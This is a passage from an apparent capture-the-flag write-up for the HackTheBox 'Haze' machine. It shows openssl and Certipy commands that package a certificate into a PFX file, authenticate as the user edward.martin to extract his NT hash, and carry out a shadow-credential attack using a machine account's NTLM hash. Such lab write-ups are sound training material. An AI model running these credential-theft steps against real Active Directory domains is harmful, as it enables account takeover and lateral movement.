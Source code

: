 This command creates a **PKCS#12 (.pfx) file** named `DD92ubbL.pfx`, bundling the **private key** (`DD92ubbL_priv.pem`) and **certificate** (`DD92ubbL_cert.pem`) for secure storage and authentication. 🔑

```bash
openssl pkcs12 -export -out DD92ubbL.pfx -inkey DD92ubbL_priv.pem -in DD92ubbL_cert.pem
Enter Export Password:
Verifying - Enter Export Password:
```

Run this to get the NT Hash of the `edward.martin` user

```bash
./fk.sh $IP \
certipy auth -pfx DD92ubbL.pfx -u 'edward.martin' -domain haze.htb -dc-ip $IP -debug
```

![Screenshot 2025-04-01 at 1.23.47 AM.png](/assets/Images/HTB_Haze/Screenshot_2025-04-01_at_1.23.47_AM.png)

**OR** 

Uses Certipy to authenticate as 'Haze-IT-Backup$' with its NTLM hash and perform a shadow credential attack automatically

```bash
certipy shadow auto -u 'Haze-IT-Backup$'@haze.htb -hashes ':a70df6599d5eab1502b38f9c1c3fd828' -account 'edward.martin'
```

![image.png](/assets/Images/HTB_Haze/image.png)
